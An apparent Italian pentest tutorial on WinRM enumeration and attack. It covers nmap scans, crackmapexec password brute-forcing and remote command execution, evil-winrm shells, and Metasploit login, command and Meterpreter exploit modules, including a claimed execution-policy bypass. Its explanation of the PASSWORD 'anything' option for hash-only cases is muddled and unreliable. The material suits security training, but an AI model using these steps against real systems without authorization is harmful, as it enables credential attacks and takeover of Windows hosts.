 # WinRM Enumeration

WinRM (Windows Remote Management) è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. È basato su HTTP e HTTPS, e le sue porte predefinite sono:

- `5985/TCP` per HTTP
- `5986/TCP` per HTTPS

WinRM viene usato in ambienti Windows moderni, soprattutto in Active Directory, per gestire sistemi da remoto. Se correttamente configurato, può essere un punto d’accesso molto potente per un attaccante.

## Attenzione alla scansione

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>`

Oppure, per script specifici:

`nmap -p 5985 --script http-winrm-info <IP>`

Questa scansione verifica se WinRM è attivo e restituisce informazioni come header HTTP, certificati e dettagli del server.

## Enumerazione e attacco con CrackMapExec

Per attaccare WinRM è molto utile il tool `crackmapexec`, che supporta vari protocolli di Windows. Per visualizzare tutti i moduli e opzioni disponibili, esegui:

`crackmapexec`

Per effettuare un attacco di brute-force sul servizio WinRM:

`crackmapexec winrm <IP> -u <username> -p <wordlist>`

Un ottimo punto di partenza è usare come username `administrator`, poiché è il primo utente generato quando WinRM viene attivato ed è dotato di privilegi amministrativi.

Se una password valida viene trovata, puoi rieseguire lo stesso comando con la password corretta e aggiungere `-x "<comando>"` per eseguire comandi remoti:

`crackmapexec winrm <IP> -u administrator -p Password123 -x "whoami"`

Puoi così eseguire `whoami`, `systeminfo`, `hostname` o altri comandi informativi.

## Accesso interattivo con Evil-WinRM

Per ottenere una vera e propria shell PowerShell remota, usa `evil-winrm`:

`evil-winrm.rb -u <username> -p '<password>' -i <IP>`

Questo comando apre una sessione interattiva da cui puoi:

- Eseguire comandi PowerShell
- Caricare o scaricare file
- Lanciare script di post-exploitation
- Raccogliere informazioni sulla macchina e sulla rete

## Brute-force con Metasploit

Metasploit include un modulo per tentare il login sul servizio WinRM in modo automatico. È utile se vuoi testare più combinazioni di credenziali in un attacco dizionario.

Apri `msfconsole` e utilizza il modulo:

`use auxiliary/scanner/winrm/winrm_login` <br>
`set RHOSTS <IP>` <br>
`set USERNAME <username>` <br>
`set PASS_FILE <path_alla_wordlist>` <br>
`set PASSWORD anything` <br>
`run` <br>

Questo modulo tenterà tutte le password contenute nella wordlist indicata per lo username specificato. È utile anche per testare una lista di utenti con:

`set USER_FILE <lista_utenti>` <br>
`set PASS_FILE <lista_password>` <br>

Attenzione perché questo modulo specifico richiede comunque che venga impostata l’opzione `PASSWORD`, altrimenti non potrà procedere all'esecuzione del payload remoto. In contesti in cui non hai la password reale (ma per esempio solo l’hash), puoi semplicemente usare un valore qualunque, come la stringa `anything`.

Questo funziona perché il modulo non verifica la correttezza della password prima dell’esecuzione: la connessione e l’autenticazione sono già state risolte dalla sessione stabilita, ma il modulo necessita comunque che il campo PASSWORD sia popolato per non generare errori di esecuzione.

Può essere una buona alternativa a `crackmapexec` in ambienti dove preferisci restare dentro Metasploit o tracciare tutto in sessioni di lavoro.

## Enumerazione dei metodi di autenticazione

Prima di tentare qualsiasi attacco di brute-force o accesso interattivo, è buona pratica usare il modulo `auxiliary/scanner/winrm/winrm_auth_methods`. Questo modulo ti permette di verificare quali metodi di autenticazione sono abilitati sul servizio WinRM.

Può mostrare, ad esempio, se il server accetta:

- Autenticazione di tipo base (username/password in chiaro)
- Autenticazione NTLM (usata con hash o per pass-the-hash)
- Autenticazione Kerberos (nei domini Active Directory)

Per utilizzarlo:

`use auxiliary/scanner/winrm/winrm_auth_methods` <br>
`set RHOSTS <IP>` <br>
`run` <br>

Il suo output ti aiuterà a capire qual è il metodo di attacco più adatto. Ad esempio:

-Se il server non supporta NTLM, non potrai usare hash NTLM per autenticarti.
-Se richiede Kerberos, dovrai operare in un ambiente di dominio e avere ticket validi.
-Se è presente solo l’autenticazione base, l’attacco sarà limitato a username e password in chiaro.

## Esecuzione di comandi remoti con winrm_cmd di Metasploit

Se hai ottenuto delle credenziali valide (username e password), ma non vuoi, o non puoi, usare strumenti esterni come `evil-winrm`, puoi eseguire comandi remoti direttamente da Metasploit grazie al modulo:

`auxiliary/scanner/winrm/winrm_cmd`

Questo modulo ti consente di inviare ed eseguire un singolo comando PowerShell sul sistema target tramite WinRM. È molto utile in fase di verifica, soprattutto quando vuoi testare rapidamente se le credenziali funzionano oppure per eseguire piccoli comandi diagnostici (`whoami`, `hostname`, `ipconfig`, ecc.) senza stabilire una sessione interattiva.

A cosa serve?
- Verificare se le credenziali funzionano prima di passare a shell o exploit più complessi.
- Eseguire comandi silenziosi e mirati in ambienti con sorveglianza attiva o logging pesante.
- Testare permessi e contesto utente (es. capire se sei Administrator, se hai accesso a cartelle specifiche, ecc.).
- Può essere utile per ambienti in cui le policy di sicurezza bloccano strumenti esterni o eseguibili come evil-winrm.

Ricorda che puoi usare questo modulo più volte, modificando ogni volta il valore di CMD per inviare comandi diversi e costruirti così un piccolo profilo del target senza bisogno di stabilire una sessione persistente.

## WinRM con Metasploit – Accesso Meterpreter

Esiste anche un exploit in Metasploit per ottenere una sessione Meterpreter tramite WinRM:

`use exploit/windows/winrm/winrm_script_exec`

Configura i seguenti parametri:

- `set RHOST <IP>`
- `set LHOST <tuo_IP>`
- `set USERNAME <utente>`
- `set PASSWORD <password>`
- `set FORCE_VBS true`

### Cosa fa FORCE_VBS?

WinRM supporta l’esecuzione remota di script in PowerShell, ma a volte i permessi o le policy locali bloccano certi tipi di comandi interattivi. L'opzione `FORCE_VBS true` forza l'esecuzione dello script tramite un wrapper in VBScript, che spesso **bypassa restrizioni di esecuzione o policy di gruppo** troppo restrittive. Questo aumenta la compatibilità e l'affidabilità dell'exploit in ambienti più protetti.

## Considerazioni finali

WinRM è uno dei metodi più potenti per accedere da remoto a macchine Windows in modo completamente interattivo. È sicuro solo se ben configurato e filtrato via firewall. Se trovi le porte 5985 o 5986 aperte e riesci a ottenere le credenziali, puoi:

- Ottenere shell con privilegi elevati
- Eseguire lateral movement
- Eseguire escalation di privilegi
- Lanciare exploit o script direttamente in memoria

Per questo motivo, ogni volta che trovi WinRM attivo, va considerato un obiettivo critico.
